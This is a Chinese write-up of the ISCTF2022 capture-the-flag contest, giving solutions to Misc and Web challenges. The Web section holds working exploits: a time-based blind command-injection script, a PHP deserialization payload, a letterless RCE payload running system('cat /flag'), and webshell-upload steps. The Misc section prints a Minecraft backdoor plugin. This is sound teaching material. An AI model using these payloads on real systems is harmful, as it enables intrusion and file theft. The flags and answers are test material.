# ISCTF2022-WriteUp

## Misc

### 简单社工


```markdown
出题人：guoql

学校：河南师范大学

帮帮忙~！ ISCTF{32位大写md5}
```

[题目附件](Misc/简单社工/files/jiandanshegong.zip)

这题来自于一位网友在贴吧的真实提问，所以无论通过任何渠道得到答案（作弊除外）都可以，本质上还是想要锻炼一下大家的社工包括搜索能力的。

下面介绍一种解法：



由篮框和繁体字可知，为中国台湾省高雄捷运，由红字可知为高雄捷运红线，由反光的4,5车站可知，这个车站相当大，因此可以把小车站删选出去，然后由始发车时和末发车得到答案为巨蛋站

进行md5加密即可。

>flag:ISCTF{644BB9FD9D3656A78E28E76102427224}

### Welcome To ISCTF2022


```markdown
欢迎来到ISCTF2022，关注公众号回复即可得到flag，听说去年是回复`ISCTF`，今年回复`ISCTF****`就可以了，你问`*`是啥？我也忘了


```

扫描二维码关注公众号，根据比赛名推测要发送的内容为`ISCTF2022`，发送后得到flag

>flag:ISCTF{We1c0me_T0_ISCTF&BlueShark}

### KFC疯狂星期四



```markdown
出题人：伽罗

学校：河南司法警官职业学院

打CTF必须要懂周四需要做的事情....
```

[题目附件](Misc/KFC疯狂星期四/files/Kfcdengkuangxingqisi.zip)

打开压缩包得到一个12.png和1.zip两个文件

12.png是一个伪加密

1.  我们通过伪加密的修改方式去修改，这里强调一下，这里面有两个文件，所以在ctrl+f的时候50 4B 01 02，09改为00
2.  得到一个图片，发现图片是一个缺少半部分的，我们使用010进行修改高度，01改为02，得到一个密码，YouVme-50
3.  打开压缩包输入密码得到图片，然后打开记事本，拉到最后一行，得到flag

>flag:ISCTF{kFc_tHuRsday-v_mE_50}

### 磁盘管理大师


```markdown
出题人：mumuzi

学校：四川警察学院

flag就在眼前
```

[题目附件](Misc/磁盘管理大师/files/flag.zip)

使用winhex加载vhd，找到被删除的图片，根据h.txt中的梁山伯猜测到lsb，使用stegsolve查看图片的最低位即可得到flag

>flag:ISCTF{LSB_LSB_LSB}

### 问卷


```markdown
小蓝鲨在ISCTF的世界里待了7天，终于找到了出口，他遇到了一份问卷，想请你填一下，地址：https://wj.qq.com/s2/11077320/4df9/
```

填写问卷即可得到flag

>flag:ISCTF{fl3g_1s_h3r3}

### 手残党福利


```markdown
出题人：Dr34m

学校：杭州师范大学

聪明的你肯定是选择手打通关啦
```

[题目附件](Misc/手残党福利/files/iwanna.zip)



修改33->47跳关

>flag:ISCTF{IWANNA_IS_EASY}

### 可爱的emoji


```markdown
出题人：g0at

学校：广东海洋大学

emoji可爱捏
```

```markdown
KEY★★★★★（★为纯字母）
```

```markdown
你所寻找的就在眼前
```

[题目附件](Misc/可爱的emoji/files/keaideemoji.zip)

#### 知识点

掩码爆破

emoji-aes

#### 解题步骤

关于的nt忘了当时怎么设置的密码这档子事

1. 根据hint去爆破压缩包密码，得到KEYISAES

2. 解开压缩包后发现txt里面是一段emoji

   🤣🔪📂🎈🚹🛩☺🚰😇✅👣😎🍴🏹👌❓🎃👉🚫🚪😡💧📮😎🍵🐍🚫🔪🍴🐅👁🐍😁☃📮😀🎤🌏✅🚪🏹🚰💵😍🛩🚰😍🥋✖🍎✅🌏✉😂🌊🔪🔪🕹🎅🌏📮🚹😊😆

   我觉得题目给的信息已经足够多了捏，AES emoji都在这里了，就算不知道查资料也能想到是emoji-aes吧。

3. 去emoji-aes网站解密  https://aghorler.github.io/emoji-aes/  不了解的话可以详细查看相关资料，或者自行试一下加密解密

   

   Rotation似乎迷惑住了很多人，这个要多去尝试捏。

   我给出的hint2，意思就是Key就是AES，Rotation对应九个字为9
   

>flag:ISCTF{Love1y_enn0ji}

### 小蓝鲨藏哪了呢


```markdown
出题人：Dr34m

学校：杭州师范大学

层层套路青春版 打开靶机之后请耐心等待一会儿会儿
```

### 两层编码


```markdown
出题人：Dr34m

学校：杭州师范大学

nc
```

```markdown
因为第二关加了5s的限制，所以从人体构造上来讲是不够你进行手操的，所以去简单学习一下Python的pwntools库的最基本的接受和传送数据的用法吧
```

### 我的Minecraft去哪了


```markdown
出题人：f00001111

学校：大理大学

f00001111入正了正版Minecraft，当他用新的账号登录他玩了几年的服务器时，却意外的发现他的东西全没了，经过查询，他发现正版账号有了新的UUID，你能帮他找到原来的UUID吗？

flag格式：ISCTF{md5(原UUID+新UUID)}

UUID格式为去除连接符后的32位数字及小写字符
```

在线UUID为UUIDv4，无法直接生成，可直接使用[MojangAPI](https://api.mojang.com/users/profiles/minecraft/f00001111)查询或使用[查询网站](https://mcuuid.net/?q=f00001111)进行查询

离线UUID为UUIDv3，生成规则为：
1. 将`OfflinePlayer:`与用户名进行拼接，并计算MD5值
2. 第13位为UUID版本，固定为3
3. 将第17位与3进行与运算，并将结果与8进行或运算，结果为第17位

或使用第三方启动器进行离线登录并查看UUID，或通过[查询网站](https://top-minecraft.com/tools/offline-uuid.php?username=f00001111)进行查询

或使用猫猫一键查询



将得到的UUID进行拼接并计算MD5值即可得到flag

>flag:ISCTF{38884c1ef16e6cba90bb67983512159d}

### 放松一下


```markdown
出题人：guoql

学校：河南师范大学

链接：https://share.weiyun.com/ge2zY6iH
```

MC题

NBTExplorer

读取文档搜索command即可



>flag:ISCTF{Welcome_TO_ISCTF2022_ENJOY_yourself}

### 老色批了奥




```markdown
出题人：guoql

学校：河南师范大学
```

```markdown
注意大小端问题
```

[题目附件](Misc/老色批了奥/files/attachment.zip)

LSB隐写，注意大小端问题

所谓大小端，即高位写到低位，低位写到高位上，跟韩信点兵的加密方式有异曲同工之妙，即如果有0x50的，大小端转换后变为0x05因此将lsb的数据读取出来后进行高低位转换即可并保存为zip文件即可

（顺带一提，如果用foremost等软件分解，有一个隐藏的压缩包，里边有个fakeflag）

>flag:ISCTF{A76510E3-FEA7-68F8-2C31-0A4ECAE5197A}

### QQ机器人


```markdown
出题人：f00001111

学校：大理大学

f00001111出题的时候发到了测试群，但没想到他的消息被xiaob4i的机器人小蓝截取了，f00001111发现后撤回了消息，但消息留在了日志里面，你能通过日志找到flag吗？

日志：2022-10-30 13:57:51 V/Bot.3161075308: \[抢金币(725548735)] 想有只小白的猫(1822245039) -> \[mirai:image:{1E7C09A0-8BDC-31B6-040F-F21EFDBF84F0}.jpg, width=640, height=640, size=27608, type=JPG, isEmoji=false]
2022-10-30 13:57:53 V/Bot.3161075308: Event: GroupRecall(bot=Bot(3161075308), authorId=1822245039, messageIds=\[17467], messageInternalIds=\[857548994], messageTime=1667109471, operator=NormalMember(1822245039), group=Group(725548735), author=NormalMember(1822245039))
```

使用Mirai构造图片
```kotlin
val image = Image("{1E7C09A0-8BDC-31B6-040F-F21EFDBF84F0}.jpg")
```

或利用QQ机器人实现

或使用[QQ图片服务器](https://gchat.qpic.cn/gchatpic_new/0/0-0-1E7C09A08BDC31B6040FF21EFDBF84F0/0)查看



得到图片后添加二维码定位标识即可识别二维码

>flag:ISCTF{Mirai_Image_Code_Is_Interesting}

### Kaspersky Rescue disk file


```markdown
出题人：mumuzi

学校：四川警察学院

decrypt it!注意格式为ISCTF{}
```

[题目附件](Misc/Kaspersky%20Rescue%20disk%20file/files/myflag.klr.enc1)

使用winhex或010或记事本打开发现是乱码，使用搜索引擎搜索拓展名能找到类似https://alt.comp.anti-virus.narkive.com/OrDIKhSr/kaspersky-rescue-disk-report-can-t-see-full-paths的网站，发现有人评论XOR the base64 with 0xEF and you have plain text with a single
linefeed terminating each line

使用cyberchef异或0xef即可得到明文，直接搜索ISCTF即可得到flag

>flag:ISCTF{S0_345y_t0_Rec0ver_1T}

### 小蓝鲨的秘密



```markdown
出题人：XH

学校：信阳师范学院
```

[题目附件](Misc/小蓝鲨的秘密/files/OurSecret.zip)

先是伪加密，解出hint，得到密码是一样的

然后爆破压缩包，得到密码114514

然后Oursecrer解码得到flag

>flag:ISCTF{bluesharkinfo_1s||24rarht83_xyy}

### ISCTF World


```markdown
出题人：f00001111

学校：大理大学

小蓝鲨在ISCTF的世界里已经7天了，据说这里有一个flag在闪，你能找到吗 链接：https://share.weiyun.com/JaUv1bTD
```

进入游戏，有一个提示牌写着点这里，底下有命令方块，点击按钮开始播放音乐，将播放过程录屏并逐帧查看即可看到flag，可利用NBT编辑器或向局域网开放修改游戏模式

>flag:ISCTF{Thanks_For_Playing_ISCTF}

### 酱紫乱


```markdown
出题人：mumuzi

学校：四川警察学院

好像得用脚本
```

[题目附件](Misc/酱紫乱/files/challenge.zip)

使用脚本对txt进行合并，解base64，统计字频即可

```python
import os
import collections
import base64

sflag = ''
for i in range(2896):
    f = open(f'challenge/{i}.txt','r').read()
    sflag += f

dflag = base64.b64decode(sflag.encode()).decode()
s = collections.Counter(dflag).most_common()
print(''.join(s[i][0] for i in range(len(s))))
```

>flag:ISCTF{so_cLut73r}

### Docker网络测试


```markdown
出题人：f00001111

学校：大理大学

ISCTF报名人数突破1000人，为了保证比赛过程中动态题目环境正常，f00001111准备了两台阿里云服务器，使用了Docker Swarm进行连接，但连接出了点问题，于是他在本地进行了测试，测试过程中他放了flag进去，你能通过流量找到flag吗？
```

[题目附件](Misc/Docker网络测试/files/flag.pcapng)

流量包，用Wireshark打开，根据题目提示可知使用TCP/2377、TCP/7946、UDP/7946、UDP/4789，在流量包里找不到4789，根据阿里云的文档可知250、4789、4790端口被禁用，可以推测使用了UDP/4788，根据端口功能可知UDP/4788用来传输数据，追踪UDP流量即可看到通讯内容，将内容连接即可得到flag

>flag:ISCTF{Docker_Swarm_Connected!}

### 捕风的魔女


```markdown
出题人：guoql

学校：河南师范大学

图形也可以蕴含很多信息！
```

[题目附件](Misc/捕风的魔女/files/bufengdemonv.zip)

出题缘由：某省官方举办比赛曾使用过这两个密码表，故改编出题

解题思路：

flag1为魔女之旅的文字表

flag2为提瓦特文字表


>flag:ISCTF{VLIXCBXZDZLSFXRXIUBWWZXDFFOXMGJL}

### 一个misc手会不懂web吗


```markdown
出题人：Dr34m

学校：杭州师范大学

原汁原味的盲注
```

[题目附件](Misc/一个misc手会不懂web吗/files/flag.pcapng)

### give_you_color_cc


```markdown
出题人：Dr34m

学校：杭州师范大学

看看涩图
```

```markdown
注意一下Linux终端字体颜色，再进行最基础的转换就好了
```

### 人生有输有赢


```markdown
出题人：tacooo0o

学校：西安邮电大学

植物大战僵尸~~~
```

[题目附件](Misc/人生有输有赢/files/renshengyoushuyouying.zip)

3种解法：

解法一：
1. 打开源码里flag_is_in_here.js文件，发现有jsfuck加密的字符串，前边标了为第2段



2. 提取所有的base64字符，解码


 
3. 然后发现有jsfuck加密的字符串，并且有序号，发现有1、3、4、5段


 
4. 6段密文按顺序合在一起，发现和常规jsfuck不一样，0并没有被加密，了解jsfuck加密原理，发现加密是把+\[]换成0，因此将所有0全部替换成+\[]


 
5. 然后jsfuck解密即可



解法二：输一场得到前三段jsfuck，赢一场得到后三段jsfuck，后边和解法1相同

解法三：在github上找到本题23.js的源码，替换后即可改游戏难度，快速解题

>flag:ISCTF{a6ee078be92d344c11fc547c5ac99be7}

### Serevr_Forensics


```markdown
出题人：DIDCTF

学校：甘肃政法大学  

检材 VeraCrypt密码：zZe&XkdL%mxPhGI%tj

请依次获取如下信息，并填入如下脚本运行得到flag

1. 该服务器的内核版本（例：3.8.3-1342.el8.x86_64）
2. 宝塔绑定的账号
3. 数据库名
4. 数据库密码
5. root用户最后一次的登出时间
6. 曾经git clone的项目名称（例：ISCTF/Forensics）
7. 网站中通讯录查看数据的ID为169285的通讯录号码是
8. 首次登录宝塔面板的时间是

所有关于时间的答案格式统一为：2022-10-13 00:30:03

\```python
# python3
import hashlib

IS = "该服务器的内核版本"+"宝塔绑定的账号"+"数据库名"+"数据库密码"
CTF = "root用户最后一次的登出时间"+"曾经git clone的项目名称"+"网站中通讯录查看数据的ID为169285的通讯录号码是"+"首次登录宝塔面板的时间是"
a = IS+CTF
flag = "ISCTF{" + hashlib.md5(a.encode()).hexdigest() + "}"
print(flag)

#ISCTF{w1254ddawd1043835d313ghrsgh}
\```
```

[题目附件](Misc/Server_Forensics/files/link.txt)

VeraCrypt密码：zZe&XkdL%mxPhGI%tj

#### 获取的内容

1. 该服务器的内核版本
2. 宝塔绑定的账号
3. 数据库名
4. 数据库密码
5. root用户最后一次的登出时间
6. 曾经git clone的项目名称（例：ISCTF/Forensics）
7. 网站中通讯录查看数据的ID为169285的通讯录号码是
8. 首次登录宝塔面板的时间是

##### 内核版本：



> 3.10.0-1127.el7.x86_64

##### 宝塔绑定的账号：



> 13139347110

##### 数据库名：



> luoliao

##### 数据库密码：

同上

> ixh2kerdR8BnCpjp

##### root用户最后一次的登出时间



> 2022-10-12 23:50:28

##### 曾经git clone的项目名称（例：ISCTF/Forensics）

历史命令中查看



> lizhipay/faka

##### 网站中通讯录查看数据的ID为169285的通讯录号码是

1. 直接查看数据库获取

2. 网站重构

3. 使用宝塔自带密码修改功能，修改后进入面板

   

4. 查看网站地址为：http://192.168.116.129:3143

5. 后面路径通常情况下为admin，进入后台登录页面

6. 通过查看数据库得知，用户名为admin，但密码是有盐值的

7. 通过搜索发现密码的加密逻辑，修改密码逻辑

   原来的：

   ```js
   /**
    * 管理员密码加密方式
    * @param $password  密码
    * @param $password_code 密码额外加密字符
    * @return string
    */
   function password($password, $password_code='lshi4AsSUrUOwWV')
   {
       return md5(md5($password) . md5($password_code));
   }
   ```

   修改后：

   ```js
   /**
    * 管理员密码加密方式
    * @param $password  密码
    * @param $password_code 密码额外加密字符
    * @return string
    */
   function password($password, $password_code='lshi4AsSUrUOwWV')
   {
       return md5($password);
   }
   ```

8. 之后在数据库中将密码替换为`123456`的md5值`e10adc3949ba59abbe56e057f20f883e`

9. 成功登陆

   

10. 在网站中找到通讯录查看数据的ID为169285的通讯录号码

    

> 13409733392

##### 首次登录宝塔面板的时间是



> 2022-10-12 22:52:10

#### 最终脚本

```python
# python3
import hashlib

IS = "3.10.0-1127.el7.x86_64"+"13139347110"+"luoliao"+"ixh2kerdR8BnCpjp"
CTF = "2022-10-12 23:50:28"+"lizhipay/faka"+"13409733392"+"2022-10-12 22:52:10"
a = IS+CTF
flag = "ISCTF{" + hashlib.md5(a.encode()).hexdigest() + "}"
print(flag)

ISCTF{054262a96ab68db02db87c9440585566}
```

>flag:ISCTF{054262a96ab68db02db87c9440585566}

### 层层套路






```markdown
出题人：Dr34m

学校：杭州师范大学

一层层剥开你的心，发现你的心循环了100次 若访问链接没有出现附件，请耐心等待10s 不行就手lu呗
```

```markdown
可以使用爆破，来尝试找到 try: xxxxxx
```

```markdown
观察前四个进行了什么操作，从而推断之后会进行什么操作，再联系hint1
```

有一点脑洞。

通过前4位，每一位都异或了0x50，并且每一个都是向前移动一位，再结合题目给的hint，心循环了100次，可以合理猜测，从100位开始，从后往前开始异或了0x50.

如果不知道也没事，因为前4个压缩包都异或了0x50，也可以猜测第五个压缩包中的某一位异或了0x50，然后就可以爆破第几位异或了0x50，exp如下

```python
import zipfile
import struct
import os

n=3
def unZip(filename):
    fz = zipfile.ZipFile(filename, 'r')
    fz.extractall()
    fz.close()


def falseDecrypt(inputName, outputName):
    file = open(inputName, "rb").read()
    key=file[n]^0x50
    out=file[:n]+key.to_bytes(1,'little')+file[n+1:]
    outfile = open(outputName, "wb")
    outfile.write(out)
    outfile.close()


for i in range(10003, 0, -1):
    falseDecrypt(str(i) +".zip", str(i) + ".zip")
    unZip(str(i) + ".zip")
    os.remove(str(i) + ".zip")
    n=(n-1)%100


#爆破第几位
# def falseDecrypt(inputName, outputName,n):
#     file = open(inputName, "rb").read()
#     key=file[n]^0x50
#     out=file[:n]+key.to_bytes(1,'little')+file[n+1:]
#     outfile = open(outputName, "wb")
#     outfile.write(out)
#     outfile.close()


# for i in range(101):
#     try:
#         falseDecrypt('9996.zip','flag.zip',i)
#         print(i)
#         unZip('flag.zip')
#         os.remove('flag.zip')
#         os.remove('9996.zip')
#         print('ok')
#         break
#     except:
#         continue

```

>flag:动态flag

### 进来被骗！



```markdown
出题人：g0at

学校：广东海洋大学

别纠结emoji了，大家来看一下这个捏~ flag以ISCTF{}格式提交
```

[题目附件](Misc/进来被骗！/files/jinlaibeipian.zip)

#### 知识点

拨号音

进制转换

#### 解题步骤

1. ppt中存在一音频，通过改后缀为zip的方式，将音频提取出来，播放后发现里面藏了一些拨号音

2. 运用音频剪辑软件将拨号音剪辑出来并识别，注意观察频谱图给出的提示，每组数据都可清晰看出捏。

   

   

3. 通关观察提取出的数据发现均为0-6的数字，所以这是一组七进制数据，写个脚本转换，或者用工具先转换成hex再转字符

   125 122 146 124 150 130 234 144 100 164 226 66 210 201 203 45 236 

   ```python
   x = '125 122 146 124 150 130 234 144 100 164 226 66 210 201 203 45 236 '
   x = x.replace('0','0')
   x = x.replace('1','1')
   x = x.replace('2','2')
   x = x.replace('3','3')
   x = x.replace('4','4')
   x = x.replace('5','5')
   x = x.replace('6','6')
   x = x.replace(' ','_')
   for i in x.split('_')[:-1]: 
     print(chr(int(i,7)),end='')
   ```

>flag:ISCTF{Q1_v0ice!}

### 套神看了都摇头











```markdown
出题人：Dr34m

学校：杭州师范大学

一个为了套而套的题，其实挺没有意思，为了覆盖到更大的知识面，可以尝试一下，如果在做题过程中感受到恶心，想吐，那请您即时就医。

题目链接：https://share.weiyun.com/iorrGPAd 密码：np6595
```

```markdown
高度只要修改前两位就行，不要修改后两位
```

```markdown
aes 加密使用的是https://www.sojson.com/encrypt_aes.html这个网站 在解码成AES的时候，会出现\n，请将\n给转成换行
```

```markdown
https://blog.csdn.net/qq_42880719/article/details/117304586
```

```markdown
passphrase 为默认密码
```

[出题记录](https://dr34nn.github.io/2022/11/07/%E5%A5%97%E7%A5%9E%E7%9C%8B%E4%BA%86%E9%83%BD%E6%91%87%E5%A4%B4-%E5%87%BA%E9%A2%98%E8%AE%B0%E5%BD%95/)

>flag:ISCTF{W0_b8_4_t4O_sH3n_!!!_Sh31_4_t40_sheN}

### Minecraft后门


```markdown
出题人：f00001111

学校：大理大学

f00001111去了一个新的服务器，在那里他打不过怪物，于是他骗腐竹安装了他的后门插件，并通过后门插件获取到了OP，他把消息告诉了xiaob4i并邀请xiaob4i一起来玩，但是他并没有告诉xiaob4i细节，而是给了xiaob4i服务器的内存镜像，你能帮小白找到获得OP的方法吗？

flag格式：ISCTF{xiaob4i获取OP的命令}，例：ISCTF{/op xiaob4i}

链接：https://share.weiyun.com/Pd3La14H
```

零解题，思路：根据内存镜像恢复插件，找到后门插件并逆向逻辑，得到序列号生成过程，并生成xiaob4i的序列号

后面插件代码

```java
package tk.mcsog.example;

import org.bukkit.command.Command;
import org.bukkit.command.CommandSender;
import org.bukkit.entity.Player;
import org.bukkit.plugin.java.JavaPlugin;

import java.util.logging.Level;

public final class Example extends JavaPlugin {

    @Override
    public void onEnable() {
        // Plugin startup logic
        getLogger().log(Level.INFO,"Enabled");
    }

    @Override
    public void onDisable() {
        // Plugin shutdown logic
        getLogger().log(Level.INFO,"Disabled");
    }

    @Override
    public boolean onCommand(CommandSender sender, Command command, String label, String[] args){
        if(command.getName().equalsIgnoreCase("mcsog")){
            if(sender instanceof Player){
                Player player = (Player) sender;
                if(!player.isOp()){
                    String name = player.getUniqueId().toString();
                    if(args.length==1){
                        if(CheckSer(name,args[0])){
                            player.setOp(true);
                            return true;
                        }
                    }
                }
            }
        }
        return false;
    }

    public boolean CheckSer(String name,String serial){
        String result = "";
        String tmp1 = name.substring(0,9);
        String tmp2 = name.substring(9,18);
        String tmp3 = name.substring(18,27);
        String tmp4 = name.substring(27,36);
        int t1 = 0,t2 = 0,t3 = 0,t4 = 0;
        for(int i:tmp1.toCharArray()){
            t1+=i^0x20;
        }
        t1%=65536;
        result+=String.format("%02x",t1>>8)+String.format("%02x",t1%256)+"-";
        for(int i:tmp2.toCharArray()){
            t2+=i*i;
        }
        t2%=65536;
        result+=String.format("%02x",t2>>8)+String.format("%02x",t2%256)+"-";
        for(int i:tmp3.toCharArray()){
            if(i>=97){
                i-=20;
            }else{
                if(i>=65&&i<=97){
                    i+=20;
                }
            }
            t3+=i;
        }
        t3%=65536;
        result+=String.format("%02x",t3>>8)+String.format("%02x",t3%256)+"-";
        for(int i:tmp4.toCharArray()){
            i=~i;
            i+=256;
            t4+=i;
        }
        t4%=65536;
        result+=String.format("%02x",t4>>8)+String.format("%02x",t4%256);
        if(result.equals(serial)){
            return true;
        }
        return false;
    }
}
```

### 东南亚好玩吗？来南非看看吧



```markdown
出题人：guoql

学校：河南师范大学

逃亡2！你能逃离南非公司的魔爪吗？
```

[题目附件](Misc/东南亚好玩吗？来南非看看吧/files/zip)

日记1：

已知密码本，利用软件进行尝试即可得到密码

日记2：

word隐写，在文件设置中把



得到：

nDjq8SzyL98fT3nH2LbMXUSsDKm5XfWqjv

base58解密



密码为：DontAskjustHelp!!!

日记3：

根据hint，可知有md5加密

在雪景图的末尾发现32字节数据为非图片数据

结合md5加密可知，有可能为md5加密后的结果

md5解密得到为Encrypt

结合雪景，以及flag文件里的空白字符，猜测为snow隐写

因此snow解密，key为Encrypt



>flag:ISCTF{1f1bbb34-3776-a5f1-c3c4-b0c265f997e8}

### 层层迷宫


```markdown
杭州师范-Dr34m

简单迷宫
```

exp:
```python
from collections import deque

import tqdm

MAX_VALUE = 0x7fffffff

def red(text):
    return "\033[91m" + text + "\033[0m"

def green(text):
    return "\033[92m" + text + "\033[0m"


class Point:
    def __init__(self, x=0, y=0):
        self.x = x
        self.y = y


def bfs(maze, begin, end):
    n, m = len(maze), len(maze[0])
    dist = [[MAX_VALUE for _ in range(m)] for _ in range(n)]
    pre = [[None for _ in range(m)] for _ in range(n)]  # 当前点的上一个点,用于输出路径轨迹

    dx = [1, 0, -1, 0]  # 四个方位
    dy = [0, 1, 0, -1]
    sx, sy = begin.x, begin.y
    gx, gy = end.x, end.y

    dist[sx][sy] = 0
    queue = deque()
    queue.append(begin)
    while queue:
        curr = queue.popleft()
        find = False
        for i in range(4):
            nx, ny = curr.x + dx[i], curr.y + dy[i]
            if 0 <= nx < n and 0 <= ny < m and maze[nx][ny] != '#' and dist[nx][ny] == MAX_VALUE:
                dist[nx][ny] = dist[curr.x][curr.y] + 1
                pre[nx][ny] = curr
                queue.append(Point(nx, ny))
                if nx == gx and ny == gy:
                    find = True
                    break
        if find:
            break
    stack = []
    curr = end
    while True:
        stack.append(curr)
        if curr.x == begin.x and curr.y == begin.y:
            break
        prev = pre[curr.x][curr.y]
        curr = prev
    flag=[]
    while stack:
        curr = stack.pop()
        flag.append([curr.x,curr.y])
    flag1=''
    for i in range(1,dist[gx][gy]):
        if flag[i][0]-flag[i-1][0]==1:
            flag1+='s'
        elif flag[i][0]-flag[i-1][0]==-1:
            flag1+='w'
        elif flag[i][1]-flag[i-1][1]==-1:
            flag1+='a'
        elif flag[i][1]-flag[i-1][1]==1:
            flag1+='d'
    flag1+='d'
    return flag1
from pwn import *
if __name__ == '__main__':
    re = remote('0.0.0.0', 80)
    for i in tqdm.tqdm(range(11, 512,2)):
        re.recvuntil(b' #')
        map = (b' #' + re.recvuntil(b'start')).decode()[:-6].replace(' ','').replace(red('S'),'S').replace(green('E'), 'E')
        n, m = i,i
        begin = Point()
        end = Point()
        maze = list(map.split('\n'))
        map2 = []
        for k in range(n):
            map1 = [_ for _ in maze[k]]
            map2.append(map1)
        maze = map2
        for k in range(n):
            if 'S' in maze[k]:
                begin.x = k
                begin.y = maze[k].index('S')
            if 'E' in maze[k]:
                end.x = k
                end.y = maze[k].index('E')
        ans = bfs(maze, begin, end).encode()
        re.recvuntil(b'keyboard (wasd)\n')
        re.sendline(ans)
    re.interactive()
```

>flag:动态flag

## Web

### EASY-PHP01


```markdown
出题人：NaxuOat

学校：河南司法警官职业学院

简单的
```

GET

?hint=1

POST

ISCTF=114514.0

>flag:动态flag

### EASY-PHP02


```markdown
出题人：唐颖

学校：河南司法警官职业学院

我太弱了，弱的和菜鸡一样。
```

弱比较绕过，字符编码解码

>flag:动态flag

### FakeWeb


```markdown
出题人：f00001111

学校：大理大学

好快！你能看出来这是个假的页面吗？
```

点击链接进入蓝鲨官网，考虑是网页跳转或301/302跳转或iframe内嵌，地址栏URL不是题目链接，排除iframe，使用F12中网络工具进行抓包，Ctrl+F5强制刷新，查看题目链接信息，返回为200，排除301/302跳转，查看响应内容发现flag

>flag:动态flag

### simplephp



```markdown
出题人：rayob

学校：成都东软学院

simplephp
```

hackbar或bp给传参poc

首先绕过正则`str=\\\\/Ilikeisctf`（\是转义字符）

然后GET方式传参的num需要满足必须是数字，并且不等于36，经过函数去空之后也不等于36，经过函数过滤之后等于36

写php脚本：
```php
<?php
for($i = 0; $i<129; $i++){
	$num=chr($i).'36';
	if(trim($num)!=='36' && is_numeric($num) && $num!=='36'){
		echo urlencode(chr($i))."\n";
	}
}
?>
```
最后cmd传参执行命令

poc如下：

`?str=\\\\/Ilikeisctf&num=%0C36&cmd=phpinfo();`

>flag:动态flag

### curl


```markdown
出题人：apos

学校：广东海洋大学

都告诉你curl了，剩下的就别问了，题目启动需要1min左右
```

### easy-onlineshell


```markdown
出题人：陈橘mo

学校：福建师范大学

没有回显的shell呢，该怎么利用这shell呢
```

由于靶机不出网导致数据外带失效

exp:
```python
import requests
import string
from urllib import parse
import time

url = "http://192.168.23.21:5000/rce"
payload = ['if [ $(head -c ', ' flag) == "', '" ]; then     sleep 1;     echo "String1 and String2 are equal."; else     echo "String1 and String2 are not equal."; fi']
disc = string.digits + string.ascii_letters + "{}+-*/_"
head = {"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", 'Connection': 'close'}

flag = ""
for i in range(1, 50):
    status = False
    for j in disc:
        pld = '"' + payload[0] + str(i) + payload[1] + flag + j + payload[2] + '"'
        pld = parse.quote(pld)
        # print(pld)
        start_time = time.time()
        # res = requests.post(url=url, headers=head, data="act=" + pld, proxies={'http': 'http://127.0.0.1:8080'})
        res = requests.post(url=url, headers=head, data="act=" + pld)
        # print(res.text)
        end_time = time.time()
        print(j + "  " + str(end_time - start_time))
        if (end_time - start_time) > 1:
            status = True
            flag += j
            print("--> flag :" + flag)
            break
    if status == False:
        print("-->" + flag + "<--")
        exit()
```

>flag:动态flag

### easy_upload



```markdown
出题人：R.zz

学校：云南警官学院

一道普普通通的文件上传罢了
```

首先得到题目：



一个文件上传界面，通过测试发现只能上传jpg格式的文件

扫描网站得到：



www.rar文件发现是index.php的源码

发现有文件包含的点



上传图片马，然后利用file包含图片马命令执行

经过测试发现内容不能有POST并且文件格式要为：image/jpeg

所以上传木马：





利用文件包含读取flag:



>flag:动态flag

### crazy-onlineshell



```markdown
出题人：陈橘mo

学校：福建师范大学

没有回显的shell呢，而且还加了黑名单限制
```

exp:
```python
import requests
import string
from urllib import parse
import time

url = "http://192.168.23.21:5000/rce"
payload = ['if [ $(head -c ', ' flag) == "', '" ]; then     sleep 1;     echo "String1 and String2 are equal."; else     echo "String1 and String2 are not equal."; fi']
disc = string.digits + string.ascii_letters + "{}+-*/_"
head = {"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", 'Connection': 'close'}

flag = ""
for i in range(1, 50):
    status = False
    for j in disc:
        pld = '"' + payload[0] + str(i) + payload[1] + flag + j + payload[2] + '"'
        pld = parse.quote(pld)
        # print(pld)
        start_time = time.time()
        # res = requests.post(url=url, headers=head, data="act=" + pld, proxies={'http': 'http://127.0.0.1:8080'})
        res = requests.post(url=url, headers=head, data="act=" + pld)
        # print(res.text)
        end_time = time.time()
        print(j + "  " + str(end_time - start_time))
        if (end_time - start_time) > 1:
            status = True
            flag += j
            print("--> flag :" + flag)
            break
    if status == False:
        print("-->" + flag + "<--")
        exit()
```

>flag:动态flag

### 傻柱


```markdown
出题人：apos

学校：广东海洋大学

注一下，题目启动需要 1min左右
```

### 猫和老鼠


```markdown
出题人：南鸣

学校：云南警官学院

有个dog想想怎么躲避它
```

首先打开题目得到：



发现是一个简单的php反序列化，通过die()函数触发toString方法利用include函数，在利用伪协议读取flag。重点在于绕过dog函数，可以利用PHP的指针&绕过，将b和a指向同一个地址，在利用$this->b=$this->c用c的值覆盖掉a的值到达绕过dog函数

php脚本：

```php
<?php
class mouse
{
public $v;
}

class cat
{
    public $a;
    public $b;
    public $c;
} 

$m=new mouse;
$m->v1="php://filter/read=convert.base64-encode/resource=flag.php";

$cat = new cat();
$cat->a=&$cat->b;
$cat->c=$m;

echo serialize($cat);
```

运行得到payload:



执行得到：



解码得到flag:



>flag:动态flag

### rce？


```markdown
出题人：许哲瑞

学校：成都东软学院

rce
```

无字母数字rce

get提交

`?shell=%24_%2B%2B%3B%24__%20%3D%20%22%E6%9E%81%22%3B%24___%20%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E5%8C%BA%22%3B%24___%20.%3D%20~(%24__%7B%24_%7D)%3B%24___%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E7%9A%AE%22%3B%24___%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E5%8D%81%22%3B%24___%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E5%8B%BA%22%3B%24___%20.%3D%20~(%24__%7B%24_%7D)%3B%24____%20%3D%20%27_%27%3B%24__%20%3D%20%22%E5%AF%B8%22%3B%24____%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E5%B0%8F%22%3B%24____%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E6%AC%A0%22%3B%24____%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E7%AB%8B%22%3B%24____%20.%3D%20~(%24__%7B%24_%7D)%3B%24_%20%3D%20%24%24____%3B%24___(%24_%5B_%5D)%3B`

post提交

`_=system('cat /flag');`

>flag:动态flag

### upload



```markdown
出题人：许哲瑞

学校：成都东软学院

upload
```

